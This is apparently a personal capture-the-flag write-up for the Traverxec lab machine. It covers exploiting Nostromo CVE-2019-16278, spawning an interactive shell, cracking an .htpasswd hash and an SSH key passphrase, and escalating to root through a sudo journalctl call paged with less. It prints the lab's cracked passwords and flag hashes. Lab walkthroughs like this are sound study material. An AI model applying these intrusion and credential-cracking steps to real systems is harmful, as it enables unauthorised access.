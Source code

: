 # Traverxec
Nmap Ports:
22
80 <== Nostromo 1.9.6

Metasploit CVE-2019-16278 for port 80 results in www-data shell. 

using python -c 'import pty; pty.spawn("/bin/bash")' gives interactive shell

ran LinEnum using python -m SimpleHTTPServer 8000

Found nostromo.conf:
```
 MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html
# LOGS [OPTIONAL]
logpid			logs/nhttpd.pid
# SETUID [RECOMMENDED]
user			www-data
# BASIC AUTHENTICATION [OPTIONAL]
htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd
# ALIASES [OPTIONAL]
/icons			/var/nostromo/icons
# HOMEDIRS [OPTIONAL]
homedirs		/home
homedirs_public		public_www
```
using this info, went to /home/david/public_www/protected-file-area
creds from .htpasswd cracked with rockyou.txt
Nowonly4me       (david)

using conf info to navigate to http://10.10.10.165/~david/protected-file-area/ and auth with 'david' and 'Nowonly4me' in firefox yeilds ssh keys.

Now running id_rsa though ssh2john, then cracking gives password 'hunter'.
```
$ ssh david@10.10.10.165 -i id_rsa 
password: hunter
$ cat user.txt
7db0b48469606a42cec20750d9782f3d
```
running: 
```
find . -perm /4000
shows 'less' has SUID
```

running
```
david@traverxec:~/bin$ cat script.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service


opens 'less', 'e' puts it in examine mode:
:e /root/root.txt
root.txt = 9aa36a6d76f785dfd320a478f6e0d906
```
